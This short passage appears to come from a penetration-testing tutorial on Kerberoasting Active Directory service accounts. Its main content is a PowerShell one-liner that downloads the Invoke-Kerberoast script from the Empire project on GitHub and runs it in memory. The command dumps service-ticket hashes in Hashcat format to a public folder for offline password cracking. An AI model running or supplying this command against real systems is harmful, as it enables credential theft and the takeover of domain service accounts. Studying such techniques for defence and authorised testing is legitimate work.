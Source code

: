 ![john](images/john.png)

### Alternative Approach for performing Kerberoasting Automatically:

You can leverage the Invoke-Kerberoast PowerShell script to request service tickets for user service accounts and return extracted ticket hashes. You can use this one-liner to dump the hashes as follows:

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath \C:\Users\Public\hashes.txt -width 8000`
